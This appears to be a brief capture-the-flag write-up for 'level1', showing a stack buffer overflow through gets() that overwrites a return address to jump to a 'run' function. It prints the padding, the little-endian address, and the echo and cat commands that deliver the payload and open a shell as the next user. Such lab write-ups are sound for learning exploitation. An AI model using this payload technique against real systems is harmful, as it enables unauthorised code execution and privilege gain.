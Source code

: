 # level1

For this level, we use a stack buffer overflow attack on `gets()`
to modify the value on the stack of the function pointer the main will
return to.  
Padding: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS
addresse de run: 0x08048444 -> \x44\x84\x04\x08
We write the exploit to a file using
`echo -e "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS\x44\x84\x04\x08"`  
and then run `cat /tmp/exploit /dev/stdin | ./level1`  
that gives us a shell as level2.